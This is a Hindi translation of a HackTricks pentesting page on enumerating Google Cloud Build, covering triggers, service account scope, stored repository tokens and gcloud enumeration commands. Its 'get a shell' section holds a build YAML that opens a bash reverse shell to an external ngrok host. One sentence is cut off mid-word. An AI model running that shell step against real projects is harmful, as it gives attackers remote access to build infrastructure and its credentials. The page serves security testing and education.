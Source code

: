 # GCP - क्लाउड बिल्ड इनम

<details>

<summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफ़ॉर्म है जो **सॉफ़्टवेयर निर्माण** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **स्रोत कोड भंडारों** के साथ एकीकरण करता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपर्स को कोड को स्वचालित रूप से निर्माण, परीक्षण और डिप्लॉय** करने की अनुमति देता है जबकि निर्माण चरणों और कार्यप्रवाहों को अनुकूलित करने की लचीलाता प्रदान करता है।

प्रत्येक Cloud Build ट्रिगर **एक क्लाउड रिपॉजिटरी से संबंधित है या एक बाह्य रिपॉजिटरी के साथ सीधे कनेक्ट किया गया है** (Github, Bitbucket और Gitlab के साथ)।

{% hint style="success" %}
मैंने यहां से या क्लाउड रिपॉजिटरी से Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा क्योंकि जब रिपॉजिटरी डाउनलोड किया जाता है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### घटनाएँ

Cloud Build को निम्नलिखित की गई स्थितियों में ट्रिगर किया जा सकता है:

* **एक शाखा में पुश**: शाखा को निर्दिष्ट करें
* **नया टैग पुश**: टैग को निर्दिष्ट करें
* **पुल अनुरोध**: पीआर प्राप्त करने वाली शाखा को निर्दिष्ट करें
* **मैन्युअल आह्वान**
* **Pub/Sub संदेश**: विषय को निर्दिष्ट करें
* **वेबहुक घटना**: एक HTTPS URL को उजागर करेगा और अनुरोध को एक गुप्त से प्रमाणित करना होगा

### क्रियान्वयन

3 विकल्प हैं:

* एक yaml/json **को निष्पादित करने के लिए आदेश निर्दिष्ट करना**। सामान्यत: `/cloudbuild.yaml`
* केवल एक जो वेब कांसोल और cli में "इनलाइन" निर्दिष्ट किया जा सकता है
* सबसे सामान्य विकल्प
* अनधिकृत एक्सेस के लिए महत्वपूर्ण
* एक **Dockerfile** को निर्माण करने के लिए
* एक **Buildpack** को निर्माण करने के लिए

### SA अनुमतियाँ

**सेवा खाता में `cloud-platform` स्कोप है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** अगर **कोई SA निर्दिष्ट नहीं किया गया है** (जैसे सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` का उपयोग होगा।**

डिफ़ॉल्ट रूप से कोई अनुमतियाँ नहीं दी गई हैं लेकिन इसे कुछ देना बहुत आसान है:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### मंजूरी

एक Cloud Build को **निर्माण क्रियाओं के लिए मंजूरी की आवश्यकता** हो सकती है (डिफ़ॉल्ट रूप से अक्षम)।

### कनेक्शन और रिपॉजिटरी

कनेक्शन निम्नलिखित के माध्यम से बनाए जा सकते हैं:

* **GitHub:** यह एक OAuth प्रॉम्प्ट दिखाएगा जिसमें अनुमतियाँ पूछी जाएगी ताकि **एक Github टोकन प्राप्त किया जा सके** जो **सीक्रेट मैनेजर में स्टोर किया जाएगा।**
* **GitHub Enterprise:** यह एक **GithubApp** स्थापित करने के लिए कहेगा। आपके GitHub Enterprise होस्ट से एक **प्रमाणीकरण टोकन** बनाया जाएगा और इस परियोजना में एक **सीक्रेट मैनेजर** गुप्त स्थान पर स्टोर किया जाएगा।
* **GitLab / Enterprise:** आपको **API एक्सेस टोकन और पढ़ने के लिए API एक्सेस टोकन** प्रदान करना होगा जो **सीक्रेट मैनेजर में स्टोर** किया जाएगा।

जब एक कनेक्शन उत्पन्न होता है, तो आप इसका उपयोग करके **उन रिपॉजिटरीज़ को लिंक कर सकते हैं जिनके लिए Github खाता पहुंच है।**

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
ध्यान दें कि इस तरीके से कनेक्ट की गई रिपॉजिटरी **केवल 2वीं पीढ़ी का उपयोग करने वाले ट्रिगर में ही उपलब्ध हैं।**
{% endhint %}

### रिपॉजिटरी कनेक्ट करें

यह **`कनेक्शन`** के समान नहीं है। यह **एक गिटहब या बिटबकेट** रिपॉजिटरी तक पहुंचने के **विभिन्न** तरीके प्रदान करता है लेकिन **कनेक्शन ऑब्ज
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
एक स्टोरेज बकेट जिसका नाम [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) है, बनाया गया है ताकि इसमें उपयोग के लिए फ़ाइल्स के साथ `.tgz` स्टोर किया जा सके।

### शैल को प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### जांच

आप **बिल्ड कॉन्फ़िग और लॉग में संवेदनशील जानकारी** पा सकते हैं।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार उन्नयन

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुंच

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
